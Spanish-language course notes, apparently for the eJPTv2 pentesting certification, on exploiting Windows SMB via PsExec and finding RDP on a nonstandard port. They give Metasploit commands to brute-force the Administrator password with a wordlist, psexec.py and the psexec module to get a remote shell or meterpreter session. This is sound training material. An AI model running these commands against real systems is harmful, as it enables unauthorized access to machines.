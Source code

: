 PsExec es un servicio que reemplaza a telnet. La autenticación se realiza a través de SMB y permite ejecutar comandos en una máquina Windows remota. Antes de utilizar este servicio debemos obtener credenciales legítimas. Para ello, utilizaremos fuerza bruta. En Windows, sabemos que siempre habrá un usuario “Administrator”, así que, vamos a tiro fijo.

Primero, iniciamos Metasploit y utilizamos el siguiente módulo:

```bash
use auxiliary/scanner/smb/smb_login
set SMBUser administrator
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
```

Una vez obtenidas las credenciales, vamos a autenticarnos con el siguiente comando:

```bash
[psexec.py](http://psexec.py) Administrator@<IP_Target> cmd.exe
```

Podemos utilizar psexec directamente desde msfconsole:

```bash
use exploit/windows/smb/psexec
```

Especificamos las credenciales (SMBUser y SMBPass) y listo, tenemos una sesión meterpreter.

### Explotación de RDP

RDP (Remote Desktop Protocol) proporciona un acceso remoto con interfaz gráfica para microsoft, para interactuar remotamente con un sistema Windows. Usa el puerto 3389 por defecto. Requiere autenticación.

Si vemos que en un escaneo con Nmap no nos sale el puerto 3389 abierto, pero tenemos el 3333 y no nos muestra versión del servicio, podemos comprobar si en ese puerto está corriendo RDP de la siguiente forma con un módulo de Metasploit:

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2065.png)
